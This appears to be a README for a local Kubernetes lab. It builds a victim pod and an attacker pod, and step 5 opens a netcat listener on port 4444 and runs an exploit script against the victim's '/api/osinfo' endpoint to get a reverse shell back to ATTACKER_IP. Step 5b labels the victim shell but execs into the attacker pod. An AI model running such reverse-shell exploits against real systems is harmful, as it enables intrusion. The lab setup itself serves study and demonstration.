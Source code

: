 1. `eval $(minikube docker-env)`

2. Build images:
```
docker build -t victim-image ./victim
docker build -t attacker-image ./attacker
```

3. Deploy the pods:
```
kubectl apply -f victim-pod.yaml
kubectl apply -f attacker-pod.yaml
```

4. Find the pod IP's with `kubectl get pods -o wide`
5. You need 2 shells, 1 for attack and 1 for victim.
5a. For attacker run:
```
# Shell 1
kubectl exec -it attacker -- bash
nc -nlvp 4444
```

5b. For victim run:
```
# Shell 2
kubectl exec -it attacker -- bash
python3 exploit.py -u http://$(VICTIM_IP):3000/api/osinfo?param --lport 4444 --lhost $(ATTACKER_IP)
```

